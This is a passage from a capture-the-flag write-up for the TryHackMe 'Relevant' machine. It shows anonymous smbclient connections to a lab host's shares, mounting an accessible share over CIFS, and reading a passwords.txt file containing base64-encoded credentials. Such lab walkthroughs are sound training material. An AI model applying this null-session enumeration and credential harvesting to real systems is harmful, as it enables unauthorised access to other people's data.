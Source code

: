 
References : [https://www.computerhope.com/jargon/h/hiddshar.htm](https://www.computerhope.com/jargon/h/hiddshar.htm)

We that we have found few shares, lets try to connect to the shares.

### Trying to connect to each shares
```console
local@local:~/Documents/tryhackme/relevant$ smbclient -N  \\\\10.10.240.19\\ADMIN$
tree connect failed: NT_STATUS_ACCESS_DENIED
local@local:~/Documents/tryhackme/relevant$ smbclient -N  \\\\10.10.240.19\\C$
tree connect failed: NT_STATUS_ACCESS_DENIED
local@local:~/Documents/tryhackme/relevant$ smbclient -N  \\\\10.10.240.19\\IPC$
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_INVALID_INFO_CLASS listing \*
smb: \> exit
local@local:~/Documents/tryhackme/relevant$ smbclient -N  \\\\10.10.240.19\\nt4wrksv
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 26 03:31:04 2020
  ..                                  D        0  Sun Jul 26 03:31:04 2020
  passwords.txt                       A       98  Sat Jul 25 21:00:33 2020

                7735807 blocks of size 4096. 4934467 blocks available
smb: \> 
```
Looking at the results we can connect to 2 shares,ie **IPC$** and **nt4wrksv** but not to 2 other shares. It is because we dont have enough permission. But we do have enough permission over share nt4wrksv and we can see a file called **passwords.txt**. We can mount the share to our device which will make it easier to work with.

### Mounting the share on local device
```console
local@local:~/Documents/tryhackme/relevant$ mkdir mnt
local@local:~/Documents/tryhackme/relevant$ sudo mount -t cifs //10.10.240.19/nt4wrksv mnt
Password for root@//10.10.240.19/nt4wrksv:                          
local@local:~/Documents/tryhackme/relevant$ ls -la mnt/
total 9
drwxr-xr-x 2 root     root     4096 Jul 26 03:31 .
drwxr-xr-x 5 local local 4096 Nov 13 09:36 ..
-rwxr-xr-x 1 root     root       98 Jul 25 21:00 passwords.txt
```
In this case we have mounted the share on our device. We could have just downloaded the file using `get passwords.txt` from inside the smb shell.

### Content of passwords.txt
```console
local@local:~/Documents/tryhackme/relevant$ cat passwords.txt 
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
